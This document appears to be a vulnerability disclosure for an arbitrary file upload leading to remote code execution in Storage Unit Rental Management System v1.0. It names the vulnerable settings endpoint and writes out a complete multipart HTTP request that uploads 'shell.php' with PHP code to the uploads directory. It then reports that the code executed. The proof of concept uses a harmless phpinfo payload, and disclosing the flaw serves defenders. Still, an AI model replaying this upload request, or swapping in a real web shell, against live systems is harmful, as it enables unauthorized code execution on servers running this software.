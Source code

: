 # Storage Unit Rental Management System v1.0 by oretnom23 has arbitrary code execution (RCE)

BUG_Author: qingning988

vendors: https://www.sourcecodester.com/php/14932/storage-unit-rental-management-system-using-php-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability url: ip/storage/classes/SystemSettings.php?f=update_settings

Loophole location: Storage Unit Rental Management System's "/storage/classes/SystemSettings.php?f=update_settings" file exists arbitrary file upload (RCE)

Request package for file upload：

```sql
POST /storage/classes/SystemSettings.php?f=update_settings HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/storage/admin/?page=system_info
Content-Length: 616
Content-Type: multipart/form-data; boundary=---------------------------17775797415769
Cookie: PHPSESSID=7hamglse0h7kpa6fbhgomf5j84
Connection: close

-----------------------------17775797415769
Content-Disposition: form-data; name="name"

Storage Unit Rental Management System - PHP
-----------------------------17775797415769
Content-Disposition: form-data; name="short_name"

SURMS - PHP
-----------------------------17775797415769
Content-Disposition: form-data; name="img"; filename="shell.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
-----------------------------17775797415769
Content-Disposition: form-data; name="cover"; filename=""
Content-Type: application/octet-stream


-----------------------------17775797415769--
```

The files will be uploaded to this directory \storage\uploads
![image](https://user-images.githubusercontent.com/54017627/228192258-eda3bfa6-347a-46e2-882d-d99ae90d8130.png)


We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/228192542-125a1624-90e8-45dc-ac6f-cab1635964e8.png)
